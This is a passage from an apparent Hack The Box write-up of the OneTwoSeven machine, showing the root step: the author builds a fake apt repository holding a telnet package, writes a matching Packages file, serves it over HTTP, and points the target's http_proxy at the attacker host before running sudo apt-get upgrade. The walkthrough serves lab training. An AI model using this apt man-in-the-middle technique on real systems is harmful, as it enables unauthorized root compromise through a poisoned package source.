root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool# mkdir DEBIAN && cd $_
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN# mkdir main && cd $_
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main# mkdir n && cd $_
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main/n# mkdir netkit-telnet
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main/n# cd netkit-telnet/
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main/n/netkit-telnet# cp ../../../../../../telnet_0.17-42_amd64.deb .
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main/n/netkit-telnet# ls -la
total 80
drwxr-xr-x 2 root root  4096 Aug 29 23:24 .
drwxr-xr-x 3 root root  4096 Aug 29 23:23 ..
-rw-r--r-- 1 root root 72176 Aug 29 23:24 telnet_0.17-42_amd64.deb
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main/n/netkit-telnet# 
```
<br> Now we need to create a `Packages` file, we'll copy the stuff from `apt-cache show telnet` and change the version number, size and the hashes. 
```
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main/n/netkit-telnet# ls -la
total 80
drwxr-xr-x 2 root root  4096 Aug 29 23:24 .
drwxr-xr-x 3 root root  4096 Aug 29 23:23 ..
-rw-r--r-- 1 root root 72176 Aug 29 23:24 telnet_0.17-42_amd64.deb
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main/n/netkit-telnet# md5sum telnet_0.17-42_amd64.deb                                                                                       
2d29b3d5179226f9a772e370c1df05d9  telnet_0.17-42_amd64.deb
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main/n/netkit-telnet# sha256sum telnet_0.17-42_amd64.deb 
77e432f0017f8a1a035468a7fd02749a0e253aa61417fe801205d03fc41bdacd  telnet_0.17-42_amd64.deb
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/pool/DEBIAN/main/n/netkit-telnet# 
```
<br> `Packages` :
```
Package: telnet
Version: 0.17-42
Installed-Size: 157
Maintainer: Mats Erik Andersson <mats.andersson@gisladisker.se>
Architecture: amd64
Replaces: netstd
Provides: telnet-client
Depends: netbase, libc6 (>= 2.15), libstdc++6 (>= 5)
Description: basic telnet client
Description-md5: 80f238fa65c82c04a1590f2a062f47bb
Source: netkit-telnet
Tag: admin::login, interface::shell, network::client, protocol::ipv6,
 protocol::telnet, role::program, uitoolkit::ncurses, use::login
Section: net
Priority: standard
Filename: pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-42_amd64.deb
Size: 72176
MD5sum: 2d29b3d5179226f9a772e370c1df05d9
SHA256: 77e432f0017f8a1a035468a7fd02749a0e253aa61417fe801205d03fc41bdacd
```
<br> Path for the `Packages` file will be `dists/ascii/main/binary-amd64`, we know it's `ascii/main` from the sources list :
```
www-admin-data@onetwoseven:/$ cat /etc/apt/sources.list.d/onetwoseven.list 
# OneTwoSeven special packages - not yet in use
deb http://packages.onetwoseven.htb/devuan ascii main
```
<br> And `binary-amd64` because the package's architecture is `amd-64`
```
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan# mkdir dists && cd $_
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/dists# mkdir ascii && cd $_
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/dists/ascii# mkdir main && cd $_
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/dists/ascii/main# mkdir binary-amd64 && cd $_
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/dists/ascii/main/binary-amd64# cp ../../../../../Packages .
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan/dists/ascii/main/binary-amd64# 
```
<br> And that's it for the repository.
```
root@kali:~/Desktop/HTB/boxes/onetwoseven/apt-mitm/devuan# tree
.
├── dists
│   └── ascii
│       └── main
│           └── binary-amd64
│               └── Packages
└── pool
    └── DEBIAN
        └── main
            └── n
                └── netkit-telnet
                    └── telnet_0.17-42_amd64.deb

9 directories, 2 files
```
<br> What's left is to run a python `http` server in `~/Desktop/HTB/boxes/onetwoseven/apt-mitm/` and everything is done.
<br> I exported the `http_proxy` variable and I ran `apt-get update`:
```
www-admin-data@onetwoseven:/$ export http_proxy=http://10.10.xx.xx:8181/
www-admin-data@onetwoseven:/$ sudo apt-get update
```
<br> Then I ran `apt-get upgrade` :
![](/images/hackthebox/onetwoseven/33.png)
<br>
<br>
![](/images/hackthebox/onetwoseven/34.png)
<br> And we owned root !
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - Unattended](/hack-the-box/unattended/)
<hr>